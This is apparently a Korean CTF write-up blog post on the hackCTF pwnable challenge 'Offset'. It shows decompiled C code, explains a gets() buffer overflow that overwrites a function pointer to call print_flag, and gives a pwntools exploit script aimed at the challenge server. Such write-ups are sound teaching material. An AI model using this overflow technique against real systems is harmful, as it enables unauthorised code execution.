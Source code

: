 ```yaml
---
layout: post
title:  "[hackCTF]Offset"
date:   2020-02-18
---
```


hackCTF pwnable 8번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1h] [ebp-27h]
  int * v5; // [esp+20h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, (char * )&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(&s);
  select_func(&s);
  return 0;
}
```

## ida - select_func
```c
int __cdecl select_func(char *src)
{
  char dest; // [esp+Eh] [ebp-2Ah]
  int (*v3)(void); // [esp+2Ch] [ebp-Ch]

  v3 = (int (*)(void))two;
  strncpy(&dest, src, 0x1Fu); // src의 값을 dest에 저장한다
  if ( !strcmp(&dest, "one") ) // dest의 값이 "one"이면
    v3 = (int (*)(void))one; // v3에 one함수의 주소를 저장한다
  return v3();
}
```

## ida - one
```c
int one()
{
  return puts("This is function one!");
}
```

## ida - print_flag
```c
int print_flag()
{
  char i; // al
  FILE * fp; // [esp+Ch] [ebp-Ch]

  puts("This function is still under development.");
  fp = fopen("flag.txt", "r");
  for ( i = _IO_getc(fp); i != -1; i = _IO_getc(fp) )
    putchar(i); // flag 값을 출력한다
  return putchar(10);
}
```

## ida - two
```c
int two()
{
  return puts("This is function two!");
}
```
<br>

정리해보자.<br><br>

***

|  v3  | esp+0x2C |
|:----:|:--------:|
|  ... |          |
| dest |  esp+0xE |

***
<br>
select_func에서 src의 값을 dest에 저장할 때 print_flag함수 주소로 v3까지 덮으면 return v3();에서 print_flag를 실행할 수 있을 것이다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>
+) print_flag Offset

![0801](https://drive.google.com/uc?id=1KA2RAABGsf9_88UeDV2rig8vzczPHF_X)

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)

payload = "A"*(0x2c-0xe)+p32(0x000006D8)

p.sendline(payload)

p.interactive()
```

## 결과
![0802](https://drive.google.com/uc?id=1YaANIi0dWPXCjXTlp2WlS9nFo8QoMulG)
